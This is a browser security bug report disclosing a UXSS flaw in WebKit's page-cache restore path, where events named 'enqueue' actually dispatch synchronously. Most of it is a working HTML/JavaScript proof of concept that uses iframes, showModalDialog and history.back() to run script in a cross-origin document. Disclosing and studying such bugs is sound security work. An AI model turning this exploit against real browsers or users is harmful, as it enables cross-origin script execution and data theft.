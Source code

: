 # UXSS: enqueuePageshowEvent and enqueuePopstateEvent don't enqueue, but dispatch
### Reported by lokihardt@google.com, Feb 27 2017

Here is a snippet of CachedFrameBase::restore which is invoked when cached frames are restored.
```cpp
void CachedFrameBase::restore()
{
    ...
    for (auto& childFrame : m_childFrames) {
        ASSERT(childFrame->view()->frame().page());
        frame.tree().appendChild(childFrame->view()->frame());
        childFrame->open(); <----- (a)
    }
    ...
    // FIXME: update Page Visibility state here.
    // https://bugs.webkit.org/show_bug.cgi?id=116770
    m_document->enqueuePageshowEvent(PageshowEventPersisted);

    HistoryItem* historyItem = frame.loader().history().currentItem();
    if (historyItem && historyItem->stateObject())
        m_document->enqueuePopstateEvent(historyItem->stateObject());

    frame.view()->didRestoreFromPageCache();
}
```
enqueuePageshowEvent and enqueuePopstateEvent are named "enqueue*", but actually those *dispatch* window events that may fire JavaScript handlers synchronously.

At (a), `open` method may invoke `CachedFrameBase::restore` method again. Thus, the parent frame's document may be replaced while `open` is called in the iteration, the next child frame is attached to the parent frame holding the replaced document.

PoC:
```html
<html>
<body>
<script>

function createURL(data, type = 'text/html') {
    return URL.createObjectURL(new Blob([data], {type: type}));
}

function navigate(w, url) {
    let a = w.document.createElement('a');
    a.href = url;
    a.click();
}

function main() {
    let i0 = document.body.appendChild(document.createElement('iframe'));
    let i1 = document.body.appendChild(document.createElement('iframe'));

    i0.contentWindow.onpageshow = () => {
        navigate(window, 'https://abc.xyz/');

        showModalDialog(createURL(`
<script>
let it = setInterval(() => {
    try {
        opener.document.x;
    } catch (e) {
        clearInterval(it);
        window.close();
    }
}, 10);
</scrip` + 't>'));

    };

    i1.contentWindow.onpageshow = () => {
        i1.srcdoc = '<script>alert(parent.location);</scrip' + 't>';
        navigate(i1.contentWindow, 'about:srcdoc');
    };

    navigate(window, createURL(`<html><head></head><body>Click anywhere<script>
window.onclick = () => {
    window.onclick = null;

    history.back();
};

</scrip` + `t></body></html>`));
}

window.onload = () => {
    setTimeout(main, 0);
};

</script>
</body>
</html>

```
